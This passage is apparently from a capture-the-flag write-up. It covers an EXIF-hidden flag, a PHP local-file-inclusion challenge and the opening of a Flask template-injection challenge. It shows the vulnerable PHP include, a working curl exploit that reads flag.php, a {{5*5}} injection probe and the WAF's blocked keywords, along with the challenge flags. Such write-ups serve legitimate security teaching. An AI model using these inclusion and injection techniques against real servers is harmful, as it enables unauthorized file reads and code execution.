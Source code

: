 However, inside drawables, there's a hidden file: `res/drawable/coordinates_can_be_found_here.jpg`. In the EXIF data of this image, there's some coordinates `-coordinates=44.44672703736637, 26.098652847616506` pointing to a Pizza hut.

Flag: `ctf{a939311a5c5be93e7a93d907ac4c22adb23ce45c39b8bfe2a26fb0d493521c4f}` (sha256 of 'pizzahut')


## Web
### alien-inclusion
This is a very simple PHP server. The flag is located in `/var/www/html/flag.php`

```php
 <?php

if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

include ($_POST['start']);
echo $secret; 
```
The only thing it does is including whatever we send in the `start` POST parameter. We need to also set the `start` GET parameter to something so that the server won't print its source and exit.

Then we can just include the flag.php file:

```shell
$ curl 'http://34.89.211.188:32193?start=1' -XPOST --data 'start=flag.php'

ctf{b513ef6d1a5735810bca608be42bda8ef28840ee458df4a3508d25e4b706134d}
```


### http-for-pros
We can change the content of the website. The server is running Flask. I quickly find out that this is SSTI (Server side template injection) by injecting `{{5*5}}`

```shell
$ http 35.198.103.37:31612 content=='{{5*5}}'

HTTP/1.0 200 OK
Content-Length: 2
Content-Type: text/html; charset=utf-8
Date: Mon, 07 Dec 2020 16:04:25 GMT
Server: Werkzeug/1.0.1 Python/2.7.12

25
```

I then tried to inject a lot of different variables, functions and attributes and found out that there is a WAF on the server checking for specific keywords like `_`, `class`, `flag`, `application`, and many others.
